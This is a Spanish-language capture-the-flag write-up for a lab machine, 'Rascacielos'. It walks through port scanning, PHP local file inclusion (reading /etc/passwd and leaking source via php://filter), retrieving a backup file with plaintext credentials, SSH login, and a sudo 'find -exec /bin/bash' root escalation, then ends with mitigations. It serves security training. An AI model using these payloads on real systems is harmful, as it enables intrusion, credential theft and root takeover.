## Información General

| Campo                | Detalle                                                     |
| -------------------- | ----------------------------------------------------------- |
| Nombre de la máquina | Rascacielos                                                 |
| Plataforma           | whoami-labs                                                 |
| IP                   | 172.17.0.2                                                  |
| Dificultad           | Fácil / Media                                               |
| Sistema Operativo    | Linux (Ubuntu)                                              |
| Servicios expuestos  | 22/tcp (SSH - OpenSSH 8.2p1), 80/tcp (HTTP - Apache 2.4.41) |
| Vulnerabilidades     | Local File Inclusion (LFI), exposición de archivo de backup |
| Vector de escalada   | Sudo NOPASSWD sobre `/usr/bin/find` (GTFOBins)              |

---

## Resumen del Ataque

La máquina expone dos servicios: SSH (OpenSSH 8.2p1) y un servidor web Apache 2.4.41 con una página por defecto de Ubuntu. Tras enumerar directorios, se descubre una aplicación PHP modular ("RASCACIELOS CORP") que carga sus secciones mediante un parámetro `page` en `index.php` (`?page=home.php`, `?page=about.php`, etc.).

Este parámetro resultó vulnerable a **Local File Inclusion (LFI)**, al ser pasado directamente a la función `include()` de PHP sin ningún tipo de validación ni sanitización. Esto permitió leer archivos arbitrarios del sistema (`/etc/passwd`) y, mediante el wrapper `php://filter`, extraer el código fuente en base64 del propio `index.php`, confirmando la vulnerabilidad a nivel de código.

Una enumeración adicional de archivos con Gobuster (incluyendo extensiones como `.bak`) reveló un archivo de configuración de respaldo (`.config.bak`) expuesto públicamente, que contenía credenciales en texto plano de un usuario del sistema (`architect`). Con estas credenciales se obtuvo acceso SSH directo.

Finalmente, la enumeración de privilegios sudo mostró que `architect` podía ejecutar `/usr/bin/find` como root sin contraseña, un vector de escalada de privilegios ampliamente documentado en GTFOBins, que permitió obtener una shell root de forma inmediata.

---

## Técnicas Usadas

- Reconocimiento de puertos y servicios con **Nmap** (`-p-`, `-sC -sV`).
- Enumeración de directorios y archivos con **dirsearch** y **Gobuster** (con fuzzing de extensiones).
- Revisión de código fuente HTML para identificar el mecanismo de carga de páginas (`?page=`).
- **Local File Inclusion (LFI)** mediante inclusión directa de archivos del sistema (`/etc/passwd`).
- Extracción de código fuente PHP mediante el wrapper **`php://filter/convert.base64-encode`**.
- Descubrimiento de archivo de backup expuesto (**`.config.bak`**) con credenciales en texto plano.
- Acceso remoto vía **SSH** con credenciales reutilizadas.
- Enumeración de privilegios (`sudo -l`) y **escalada de privilegios** mediante GTFOBins (`find` con NOPASSWD).

---

## Desarrollo

### 1. Escaneo de puertos

```
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```



### 2. Identificación de versiones de servicio

```
nmap -p 22,80 -sC -sV -oN allports 172.17.0.2
```



Se confirma Apache 2.4.41 sobre Ubuntu y OpenSSH 8.2p1, ambos sin CVEs críticos conocidos ni explotables de forma directa en esta versión, por lo que el foco pasa a la enumeración de contenido web.

### 3. Revisión de la web principal

```
http://172.17.0.2/
```



Se muestra la plantilla por defecto de Apache ("It works"). El código fuente no aporta información adicional.

### 4. Enumeración de directorios y archivos

```
dirsearch -u http://172.17.0.2/ --exclude-status 403,404,500 -e php,txt,html 
```



Se descubre una aplicación PHP modular oculta detrás de la página por defecto de Apache, con varios archivos (`home.php`, `about.php`, `contact.php`, `header.php`, `footer.php`) que sugieren un sistema de inclusión dinámica de páginas.

### 5. Análisis de la aplicación e identificación del parámetro vulnerable

```
http://172.17.0.2/index.php
```



En el código fuente se observa que la navegación se realiza mediante un parámetro GET `page`:



Este patrón (`?page=archivo.php`) es un indicio clásico de una posible vulnerabilidad de **Local File Inclusion (LFI)**.

### 6. Confirmación de LFI

```
view-source:http://172.17.0.2/index.php?page=/etc/passwd
```



Se confirma la inclusión arbitraria de archivos del sistema. Además, se identifica un usuario no estándar, `architect`, con shell `/bin/bash`, como posible objetivo de acceso.

### 7. Extracción del código fuente vulnerable

Dado que `/etc/passwd` es texto plano pero el código PHP se ejecutaría al incluirlo directamente, se utiliza el wrapper `php://filter` para extraer el propio `index.php` en base64 sin que se ejecute:

```
http://172.17.0.2/index.php?page=php://filter/convert.base64-encode/resource=index.php
```



Decodificando el resultado:

```
echo "PD9waHAKJHBhZ2UgPSAkX0dFVFsncGFnZSddID8/ICdob21lLnBocCc7Ci8vIFZ1bG5lcmFibGU6IHNpbiB2YWxpZGFjacOzbiBuaSBzYW5pdGl6YWNpw7NuCmluY2x1ZGUoJHBhZ2UpOwo/Pgo=" | base64 -d
```



Se confirma a nivel de código fuente que `$_GET['page']` se pasa directamente a `include()` sin ninguna validación, lista blanca, ni sanitización, lo que constituye la causa raíz de la vulnerabilidad LFI.

### 8. Enumeración de archivos adicionales (fuzzing con extensiones)

```
gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,bak,old,log,sql,conf,config,env -t 50 -k -b 403 --exclude-length 272
```



Se identifica un archivo de backup expuesto, `.config.bak`, que dirsearch no había detectado por no incluir esa extensión en su lista por defecto.

### 9. Extracción de credenciales del archivo de backup

```
curl http://172.17.0.2/.config.bak 
```



El archivo revela credenciales de base de datos y una contraseña de "sistema interno" (`Sky2026!`), que se prueba directamente contra el usuario del sistema previamente identificado (`architect`).

### 10. Acceso vía SSH

```
ssh-keygen -f '/home/kali/.ssh/known_hosts' -R '172.17.0.2'
ssh architect@172.17.0.2
```

Credenciales válidas:

```
architect : Sky2026!
```

```
architect@rascacielos:~$ whoami
architect
```



### 11. Enumeración de usuarios y privilegios

```
architect@rascacielos:~$ grep bash /etc/passwd
```



```
architect@rascacielos:~$ sudo -l
```



`architect` puede ejecutar `/usr/bin/find` como root sin contraseña, otro binario con escape a shell documentado en GTFOBins.

### 12. Escalada de privilegios

```
architect@rascacielos:~$ sudo /usr/bin/find / -exec /bin/bash \;
```

```
root@rascacielos:/home/architect# whoami
root
```



### 13. Captura de la flag

```
root@rascacielos:/home/architect# cd /root
root@rascacielos:~# cat flag.txt 
```



---

## Lecciones Aprendidas

- Un sistema de "carga dinámica de páginas" basado en `include($_GET['page'])` sin lista blanca de valores permitidos es una de las formas más directas de introducir LFI en una aplicación PHP.
- El wrapper `php://filter/convert.base64-encode/resource=` es una técnica clave para leer el código fuente de archivos `.php` a través de una LFI sin que estos se ejecuten, algo imprescindible cuando el objetivo es auditar el código y no solo leer archivos de texto plano.
- Los archivos de backup (`.bak`, `.old`, `.swp`, etc.) generados por editores o procesos de despliegue manuales suelen quedar accesibles públicamente si no se excluyen explícitamente del document root; son un objetivo habitual y de alto valor en la fase de enumeración.
- La reutilización de una misma contraseña entre "credenciales de sistema interno" y una cuenta de usuario real del sistema operativo es un error común que permite pivotar directamente de una fuga de información a acceso remoto autenticado.
- Igual que en otras máquinas de la plataforma, un único binario mal configurado en sudoers (aquí `find`) resulta suficiente para escalar a root de forma inmediata, reforzando la importancia de auditar sudoers contra la lista de GTFOBins.

---

## Medidas de Mitigación

- Nunca pasar entrada de usuario directamente a funciones de inclusión de archivos (`include`, `require`, `include_once`, `require_once`). Usar una lista blanca estricta de páginas permitidas (por ejemplo, un array asociativo `page => archivo.php` validado contra el valor recibido).
- Deshabilitar o restringir wrappers de PHP peligrosos cuando no sean necesarios (`allow_url_include = Off`, y limitar el uso de `php://filter` si no es requerido por la lógica de negocio).
- Excluir de forma explícita del document root cualquier archivo de backup, configuración o temporal (`.bak`, `.old`, `.swp`, `.env`, `.git`, etc.), tanto a nivel de despliegue (no dejarlos ahí) como a nivel de servidor web (reglas de denegación en Apache/Nginx).
- No almacenar credenciales en texto plano en archivos accesibles desde el webroot; usar variables de entorno o gestores de secretos, y nunca reutilizar contraseñas de servicios (BD, "sistema interno") en cuentas de sistema operativo.
- Revisar y minimizar las entradas en `sudoers`. Evitar `NOPASSWD` en binarios con capacidad de escape a shell documentada en GTFOBins (como `find`, `vim`, `less`, `awk`, etc.), y si es imprescindible, restringir los argumentos permitidos mediante wrappers específicos.

